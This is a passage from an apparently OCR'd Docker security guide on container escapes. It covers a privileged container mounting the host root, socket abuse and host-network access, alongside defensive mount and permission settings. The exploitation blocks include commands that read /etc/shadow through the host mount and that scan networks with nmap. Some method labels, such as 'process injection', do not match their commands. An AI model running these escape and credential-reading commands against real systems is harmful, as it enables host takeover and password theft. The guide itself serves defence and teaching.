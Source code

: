 ```bash
docker run -it --privileged -v /:/host alpine:latest
```

#### **Exploitation Techniques**
```bash
# Method 1: Direct host access
cd /host
cat /etc/passwd
cat /etc/shadow

# Method 2: Docker socket abuse
cd /host/var/run
docker run -it --privileged -v /:/host alpine:latest

# Method 3: Process injection
cd /host/proc
ls -la /host/proc/1/exe
```

#### **Defense & Patching**
```bash
# Avoid host mounts
docker run -d --name secure-app \
  -v app-data:/app/data \
  myapp:latest

# Use read-only mounts
docker run -d --name secure-app \
  --read-only \
  --tmpfs /tmp \
  --tmpfs /var/log \
  myapp:latest

# Restrict Docker socket access
chmod 660 /var/run/docker.sock
chown root:docker /var/run/docker.sock
```

### **3. Kernel Exploitation via Shared Namespace**

#### **Attack Vector: Host Network Namespace**
```bash
# Container with host network
docker run -d --name vulnerable-app \
  --network host \
  myapp:latest

# Attacker gains shell
docker exec -it vulnerable-app /bin/bash

# Access host network interfaces
ip addr show
netstat -tuln

# Scan host network
nmap -sS 127.0.0.1
nmap -sS 192.168.1.0/24

# Access host processes
ps aux
```
